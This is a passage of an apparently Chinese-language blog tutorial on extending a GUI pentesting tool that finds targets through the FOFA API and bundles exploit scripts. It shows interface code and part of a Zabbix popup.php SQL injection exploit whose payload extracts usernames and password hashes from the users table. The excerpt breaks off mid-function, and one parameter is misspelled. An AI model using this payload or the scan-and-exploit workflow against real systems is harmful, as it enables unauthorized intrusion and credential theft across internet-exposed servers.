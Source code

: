 ```
    fofa_text1 = ttk.Entry(fofa_info, bootstyle=&#34;success&#34;, width=30, textvariable=fofa_email)
    fofa_text1.grid(row=0, column=1, padx=5, pady=5)
    fofa_key = tk.StringVar(fofa_info,value=&#34;填email对应的key&#34;)
    fofa_text2 = ttk.Entry(fofa_info, bootstyle=&#34;success&#34;, width=30, textvariable=fofa_key)
    fofa_text2.grid(row=1, column=1, padx=5, pady=5)
    button1 = ttk.Button(fofa_info, text=&#34;点击保存&#34;, command=fofa_saveit_twice, width=30, bootstyle=&#34;info&#34;)
    button1.grid(row=2, column=1, padx=5, pady=5)
    fofa_info.mainloop()
```

  
使用 fofa 的处理流程  
  
![image-20241018135727613](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxMVJWToKckHykZchZqYTPZpZtn6sMh7SRPiaDlg4mWeiaNMxctpOZYicP31MSMFibCtXPiboQRSMoYibvQ/640?wx_fmt=png&from=appmsg "null")  
  
  
后续是通过 fofa 的 api 进行查询的，所以需要你的 api，只有 vip 才有这个功能  
  
然后下面是脚本调用逻辑  
  
因为一个漏洞是需要你自己写一个 python 脚本的  
  
然后加入你自己自定义的漏洞是在  
  
![image-20241018140142362](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxMVJWToKckHykZchZqYTPZ7B4zRcXibpK0Sq7wJYgWGicLxg4qdtyNk8wWchpFsLRecbSWiblKpPG2g/640?wx_fmt=png&from=appmsg "null")  
  
  
这个逻辑应该很好理解，比如我的就是  

```
button50 = ttk.Button(group3,text=&#34;seacms前台sql注入&#34;,command=sql_injection_gui,width=45,bootstyle=&#34;primary&#34;)
button50.grid(row=15,column=2,columnspan=2,padx=5,pady=5)
```

  
然后就是写对应的利用脚本了  
  
因为我们写的脚本是需要贴合工具的，所以先随便找一个脚本看看大概的架构是怎么样的  
  
![image-20241018140341414](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxMVJWToKckHykZchZqYTPZnSRChI1wDRhj8nsTxaCia9LcU2kUdYmrpN0DEZicxI7Y4lGWLWXnW6bQ/640?wx_fmt=png&from=appmsg "null")  
  
  
工具自带了许许多多的利用脚本，我们看一下如何仿写  
  
比如 zabbix_sql.py  

```
import requests
import tkinter as tk
from tkinter import scrolledtext
from concurrent.futures import ThreadPoolExecutor
from ttkbootstrap.constants import *
&#34;&#34;&#34;
Zabbix ‘popup.php’SQL注入漏洞
http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-201112-017
Zabbix的popup.php中存在SQL注入漏洞。远程攻击者可借助only_hostid参数执行任意SQL命令。
&#34;&#34;&#34;
def zabbix_sql_exp(url):
    poc = r&#34;&#34;&#34;popup.php?dstfrm=form_scenario&dstfld1=application&srctbl=applications&srcfld1=name&only_hostid=1))%20union%20select%201,group_concat(surname,0x2f,passwd)%20from%20users%23&#34;&#34;&#34;
    target_url = url + poc
    status_str= ['Administrator', 'User']
    try:
        res = requests.get(url, Verify=False,timeout=3)
        if res.status_code == 200:
            target_url_payload = f&#34;{target_url}&#34;
            res = requests.get(url=target_url_payload,Verify=False)
```